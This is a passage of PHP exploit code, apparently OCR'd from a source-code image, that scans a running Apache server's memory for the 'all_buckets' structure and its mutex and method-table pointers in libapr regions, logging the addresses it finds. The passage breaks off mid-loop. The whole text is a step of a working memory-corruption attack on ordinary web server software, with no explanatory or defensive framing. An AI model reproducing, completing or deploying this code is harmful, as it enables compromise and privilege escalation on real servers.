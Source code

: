 	#
	# Find all_buckets in memory
	#

	# We are looking for a structure s.t.
	# |all_buckets, mutex| = 0x10
	# |mutex, meth| = 0x8
	# all_buckets is in apache's memory region
	# mutex is in apache's memory region
	# meth is in libaprR's memory region
	# meth's function pointers are in libaprX's memory region
	o('Looking for all_buckets in memory');
	$all_buckets = 0;

	for(
		$i = $addresses['apache'][0] + 0x10;
		$i &lt; $addresses['apache'][1] - 0x08;
		$i += 8
	)
	{
		# mutex
		$mutex = $pointer = str2ptr($this-&gt;abc, $i - $address);
		if(!in($pointer, $addresses['apache']))
			continue;

		# meth
		$meth = $pointer = str2ptr($this-&gt;abc, $pointer + 0x8 - $address);
		if(!in($pointer, $addresses['libaprR']))
			continue;

		o('  [&amp;mutex]: 0x' . dechex($i));
		o('    [mutex]: 0x' . dechex($mutex));
		o('      [meth]: 0x' . dechex($meth));

		# meth-&gt;*
		# flags
		if(str2ptr($this-&gt;abc, $pointer - $address) != 0)
			continue;
		# methods
		for($j=0;$j&lt;7;$j++)
		{
			$m = str2ptr($this-&gt;abc, $pointer + 0x8 + $j * 8 - $address);
			if(!in($m, $addresses['libaprX']))
				continue 2;
			o('        [*]: 0x' . dechex($m));